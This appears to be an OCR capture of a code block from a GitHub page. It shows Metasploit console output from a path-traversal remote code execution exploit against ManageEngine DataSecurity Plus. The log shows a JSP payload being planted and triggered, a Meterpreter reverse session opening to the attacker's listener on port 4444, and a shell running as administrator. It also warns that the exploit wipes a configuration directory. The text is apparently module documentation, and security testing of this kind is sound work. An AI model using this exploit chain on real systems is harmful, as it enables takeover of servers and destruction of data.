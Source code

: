 ```

[!] This exploit will wipe the contents in the <datasecurity_install_dir>\apps\dataengine-xnode\conf\datarepository\schema directory.
[!] If that directory remains empty, Xnode will stop working and it will not be possible to reboot DataSecurity Plus.
[!] This module will try to repopulate the directory with the default JSON files, but that may impact functionality for a non-default configuration.
[*] Requesting JSP payload: http://192.168.1.225:8800/bqpmsuo.jsp
[+] Successfully requested JSP payload
[*] 192.168.1.225   manageengine_datasecurity_plus_traversal_rce - Delivering Payload (3696 bytes)
[*] Sending stage (200774 bytes) to 192.168.1.225
[+] We got a session! Please be patient while cleanpup is performed. This may take a while.
[*] Server stopped.
[+] Successfully removed the JSP payload from C:\Program Files (x86)\ManageEngine\DataSecurity Plus\webapps\fap\bqpmsuo.jsp.
[*] Attempting to repopulate apps\dataengine-xnode\conf\datarepository\schema with the default JSON files.
[+] Successfully uploaded the default Xnode datarepostiory schema files.
[*] Meterpreter session 4 opened (192.168.1.128:4444 -> 192.168.1.225:1215) at 2022-06-10 12:43:06 -0400

msf6 exploit(windows/http/manageengine_datasecurity_plus_traversal_rce) > sessions 4
[*] Starting interaction with 4...

meterpreter > shell
Process 3768 created.
Channel 29 created.
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Program Files (x86)\ManageEngine\DataSecurity Plus\bin>whoami
whoami
lies\administrator
```
